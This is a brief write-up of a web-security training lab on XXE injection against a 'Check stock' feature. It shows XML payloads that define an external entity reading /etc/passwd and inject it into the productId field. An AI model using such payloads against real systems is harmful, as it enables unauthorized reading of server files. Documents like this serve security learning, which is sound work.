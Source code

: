Title: Exploiting XXE using external entities to retrieve files
Desc:  This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 



Example of XXE attack:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

All I need to do is to change request for stock number to have external entity.
![image](https://github.com/user-attachments/assets/7f99b71f-c4ca-4276-b065-abe44237a06f)


```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Request before change:
![image](https://github.com/user-attachments/assets/9c048d3b-7ca6-4103-a40e-2b00ac6e9b7c)


